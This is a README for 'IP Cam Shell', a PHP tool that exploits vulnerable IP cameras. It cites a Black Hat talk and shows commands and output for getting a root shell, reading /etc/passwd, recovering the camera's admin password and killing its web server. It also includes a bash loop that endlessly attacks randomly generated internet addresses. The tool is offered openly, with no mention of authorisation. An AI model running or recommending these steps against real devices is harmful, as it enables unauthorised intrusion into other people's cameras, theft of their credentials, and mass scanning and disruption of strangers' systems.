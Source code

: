 IP Cam Shell
=======

IPCS is a command line script for testing and exploiting a wide range of IP cameras as demonstrated by Craig Heffner in "Exploiting Surveillance Cameras Like a Hollywood Hacker". See the slides here: https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf

A copy of the slides is included in the repository.

Requirements
=======

 * PHP 5
 * A distribution of Linux. I haven't and won't test this on Windows.

Usage
=======

Basic Usage
-------

Using IPCS is pretty straight forward. You pass the URL to ipcs.php via the -u option. 

```
$ php ipcs.php -u http://192.168.0.3:8080
```

If the camera is vulnerable you'll be dropped in to a "shell" as root and be able to exploit the camera further.

```
$ php ipcs.php -u http://192.168.0.3:8080
Those who do not understand UNIX are condemned to reinvent it, poorly. — Henry Spencer
ipcamshell>
```

It's very much like being logged in to a stripped down Unix server as root.

```
ipcamshell> whoami
root
ipcamshell> id
uid=0(root) gid=0(root)
ipcamshell> ls /
bin
dev
etc
lib
linuxrc
mnt
opt
proc
sbin
scripts
tmp
usr
var
ipcamshell> cat /etc/passwd
root:x:0:0:Linux User,,,:/:/bin/sh
```

Use `quit`, `exit`, or `^C` to exit.

Further Attacks
-------
Of course it wouldn't be very fun without the ability to login and view the camera... 

```
ipcamshell> getadminpass
Username: admin
Password: hunter2
```

If you wish to kill the web server (to prevent someone from accessing the web interface temporarily), run the `killswitch` command. Note that the camera will continue to record regardless of this. Shutting the server down *might* switch the camera off, although that's complete speculation.



If the camera isn't vulnerable, the server isn't up, or the internet hates you, you'll recieve the following message:

```
Sorry, the server specified isn't vulnerable.
```

Automation
-------

IPCS has the potential to be automated in different ways. This, I'm going to leave to you. The `-c` option won't drop you in to a shell after successfully exploiting a server, and the `-g` option surpresses the "Sorry, the server specified isn't vulnerable." messages for failed attempts.

As an example, the following bash script will forever try to attack randomly generated IPv4 addresses.

```
#!/bin/bash
while true; do export ip=$((RANDOM%256)).$((RANDOM%256)).$((RANDOM%256)).$((RANDOM%256)) && echo "Trying $ip..." && php ipcs.php -c 1 -g 1 -u http://$ip; done;
```

This is slow, and will likely yield nothing without *extremely* good luck. Use your imagination. :)

Note
=======
I do not claim the description or purpose of this tool to be 100% accurate. If you see anything which is incorrect in this document, please submit a pull request or open a new issue.
